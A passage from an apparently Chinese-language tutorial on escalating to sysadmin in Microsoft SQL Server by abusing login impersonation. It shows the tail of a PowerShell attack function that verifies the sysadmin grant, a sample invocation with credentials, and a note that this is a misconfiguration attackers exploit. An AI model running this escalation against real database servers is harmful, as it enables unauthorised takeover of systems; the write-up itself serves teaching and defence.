             # Execute query
            $cmd = New-Object System.Data.SqlClient.SqlCommand($Query,$conn)
            $results = $cmd.ExecuteReader() 

            # Status user
            Write-Host "[*] Verifying that $UsertoElevate was added to the sysadmin role..."

            # Parse query results
            $TableVerify = New-Object System.Data.DataTable
            $TableVerify.Load($results)  

            # Check if user is a sysadmin
            $TableVerify| Select-Object -First 1 status | foreach {

                $VerifySysadmin = $_.status
                if ($VerifySysadmin -eq 1){
                    Write-Host "[*] Success - $UsertoElevate is now a sysadmin!" -foreground "green"
                    Write-Host "[*] All Done."          
                }else{
                    Write-Host "[*] Failed - Something went wrong!." -foreground "red"
                    Write-Host "[*] All Done."
                } 
            }  

            # Close db connection
            $conn.Close()                        
        }else{
             Write-Host "[*] Sorry, the $ConnectUser account can't impersonate any sysadmins." -foreground "red" 
             Write-Host "[*] All done." 
        }  
        
    }

![9.png](resource/Mssql模拟登录提权/media/rId38.png)

    Invoke-SqlServer-Escalate-ExecuteAs -SqlUser MyUser1 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![10.png](resource/Mssql模拟登录提权/media/rId39.png)

总的来说，利用这个来提权也不算是漏洞，毕竟可能是运维人员想要的正常功能，然后被攻击者利用，达到提权sysadmin的目的。
